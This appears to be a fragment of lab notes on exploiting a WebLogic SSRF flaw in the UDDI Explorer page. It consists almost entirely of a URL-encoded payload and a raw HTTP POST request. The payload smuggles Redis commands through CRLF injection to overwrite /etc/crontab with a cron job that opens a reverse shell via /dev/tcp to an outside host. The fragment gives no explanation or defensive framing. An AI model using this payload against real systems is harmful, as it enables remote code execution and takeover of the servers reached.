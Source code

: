 ![](../attaches/Pasted%20image%2020230409232418.png)

```
http://172.23.0.2:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20%27sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fip%2F4000%200%3E%261%27%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A
-------------------------------------------------------------------------
POST /uddiexplorer/SearchPublicRegistries.jsp HTTP/1.1

Host: 127.0.0.1:7001

Content-Length: 616

Cache-Control: max-age=0

sec-ch-ua: "Chromium";v="111", "Not(A:Brand";v="8"

sec-ch-ua-mobile: ?0

sec-ch-ua-platform: "Linux"

Upgrade-Insecure-Requests: 1

Origin: http://127.0.0.1:7001

Content-Type: application/x-www-form-urlencoded

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.111 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Sec-Fetch-Site: same-origin

Sec-Fetch-Mode: navigate

Sec-Fetch-User: ?1

Sec-Fetch-Dest: document

Referer: http://127.0.0.1:7001/uddiexplorer/SearchPublicRegistries.jsp

Accept-Encoding: gzip, deflate

Accept-Language: en-US,en;q=0.9

Cookie: publicinquiryurls=http://www-3.ibm.com/services/uddi/inquiryapi!IBM|http://www-3.ibm.com/services/uddi/v2beta/inquiryapi!IBM V2|http://uddi.rte.microsoft.com/inquire!Microsoft|http://services.xmethods.net/glue/inquire/uddi!XMethods|; JSESSIONID=Mq2pkyWCl7h0XP0Phfv0Gw5mJR5vQGCt4CQgLX6KwppMnLvnGDpg!256862839

Connection: close



```